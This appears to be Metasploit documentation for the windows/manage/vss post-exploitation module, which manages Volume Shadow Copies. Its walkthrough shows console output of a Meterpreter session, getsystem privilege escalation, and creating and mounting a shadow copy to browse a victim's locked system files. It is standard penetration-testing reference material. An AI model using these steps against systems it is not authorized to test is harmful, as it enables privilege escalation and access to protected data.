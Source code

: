 ## Overview
This module will perform management actions for Volume Shadow Copies on the system. This is based on the VSSOwn Script
originally posted by Tim Tomes and Mark Baggett. The session must be running with Administrative privileges and outside
of UAC.

## Options

### DEVICE

*Only applicable with the VSS_MOUNT action.*

DeviceObject of the shadow copy to mount. This should begin with `\\?\GLOBALROOT\Device` and **must end with a slash (`\`)**.

### PATH

*Only applicable with the VSS_MOUNT and VSS_UNMOUNT actions.*

Path to use for mounting the shadow copy.

### SIZE

*Only applicable with the VSS_SET_MAX_STORAGE_SIZE action.*

Size in bytes to set for max storage.

### VOLUME

*Only applicable with the VSS_CREATE action.*

Volume to make a copy of.

## Scenarios

### Create And Access A Shadow Copy

First, ensure the session is running with elevated privileges and that UAC is not restricting it.

```
msf post(windows/manage/vss) > 
[*] Sending stage (200262 bytes) to 192.168.159.30
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.30:62600) at 2021-01-04 12:09:59 -0500

msf post(windows/manage/vss) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > getuid
Server username: DESKTOP-RTCRBEV\Spencer McIntyre
meterpreter > sysinfo 
Computer        : DESKTOP-RTCRBEV
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getsystem 
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > background 
[*] Backgrounding session 2...
```

Next, use the VSS module to the storage information and then create a shadow copy of the `C:` drive (the default
value).

```
msf post(windows/manage/vss) > vss_get_info 

[*] Volume Shadow Copy service is running.
[*] Software Shadow Copy service not running. Starting it now...
[+] Software Shadow Copy started successfully.
[+] Shadow Copy Storage Data
========================

  Field           Value
  -----           -----
  AllocatedSpace  
  MaxSpace        
  UsedSpace       

[*] Post module execution completed
msf post(windows/manage/vss) > set ACTION VSS_CREATE 
ACTION => VSS_CREATE
msf post(windows/manage/vss) > run

[*] Volume Shadow Copy service is running.
[*] Software Shadow Copy service is running.
[*] ShadowCopy created successfully
[+] Shadow Copy "{A38B3122-4D7A-4B93-B31B-D1454C2FED4D}" created!
[*] Post module execution completed
msf post(windows/manage/vss) >
```

After creating the shadow copy, list the copies to get the `DeviceObject` path and mount it.

```
msf post(windows/manage/vss) > vss_list_copies 

[*] Volume Shadow Copy service is running.
[*] Software Shadow Copy service is running.
[*] Getting data for Shadow Copy {A38B3122-4D7A-4B93-B31B-D1454C2FED4D} (This may take a minute)
[+] Shadow Copy Data
================

  Field                Value
  -----                -----
  ClientAccessible     TRUE
  Count                1
  DeviceObject         \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
  Differential         TRUE
  ExposedLocally       FALSE
  ExposedName          
  ExposedRemotely      FALSE
  HardwareAssisted     FALSE
  ID                   "{A38B3122-4D7A-4B93-B31B-D1454C2FED4D}"
  Imported             FALSE
  NoAutoRelease        TRUE
  NoWriters            TRUE
  NotSurfaced          NotSurfacedFALSE
  OriginiatingMachine  DESKTOP-RTCRBEV
  Persistent           TRUE
  Plex                 FALSE
  ProviderID           {B5946137-7B9F-4925-AF80-51ABD60B20D5}
  ServiceMachine       DESKTOP-RTCRBEV
  SetID                {F608494B-C0DB-4462-81B0-12D06A2DD3EB}
  State                12
  Transportable        FALSE
  VolumeName           \\?\Volume{a5e97ffa-0120-4d03-ad47-18a94e9bfb2b}\

[*] Post module execution completed
msf post(windows/manage/vss) > set ACTION VSS_MOUNT 
ACTION => VSS_MOUNT
msf post(windows/manage/vss) > set DEVICE \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\
DEVICE => \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
msf post(windows/manage/vss) > run

[*] Volume Shadow Copy service is running.
[*] Software Shadow Copy service is running.
[*] Creating the symlink...
[+] Mounted successfully
[*] Post module execution completed
msf post(windows/manage/vss) >
```

Finally, interact with the session to access the mounted directory before unmounting it.

```
msf post(windows/manage/vss) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > dir ShadowCopy 
Listing: ShadowCopy
===================

Mode              Size        Type  Last modified              Name
----              ----        ----  -------------              ----
40777/rwxrwxrwx   0           dir   2019-03-19 00:52:43 -0400  $Recycle.Bin
40777/rwxrwxrwx   0           dir   2020-03-31 17:40:05 -0400  Documents and Settings
40777/rwxrwxrwx   0           dir   2019-03-19 00:52:43 -0400  PerfLogs
40555/r-xr-xr-x   4096        dir   2019-03-19 00:52:43 -0400  Program Files
40555/r-xr-xr-x   4096        dir   2019-03-19 00:52:44 -0400  Program Files (x86)
40777/rwxrwxrwx   0           dir   2019-03-19 00:52:44 -0400  ProgramData
40777/rwxrwxrwx   0           dir   2020-03-31 20:39:26 -0400  Recovery
40777/rwxrwxrwx   4096        dir   2020-03-31 20:38:24 -0400  System Volume Information
40555/r-xr-xr-x   4096        dir   2019-03-19 00:37:22 -0400  Users
40777/rwxrwxrwx   16384       dir   2019-03-19 00:37:22 -0400  Windows
100666/rw-rw-rw-  1476395008  fil   2020-03-31 20:38:25 -0400  pagefile.sys
100666/rw-rw-rw-  16777216    fil   2020-03-31 20:38:25 -0400  swapfile.sys

meterpreter > background 
[*] Backgrounding session 2...
msf post(windows/manage/vss) > vss_unmount 

[*] Volume Shadow Copy service is running.
[*] Software Shadow Copy service is running.
[*] Deleting the symlink...
[*] Post module execution completed
msf post(windows/manage/vss) >
```
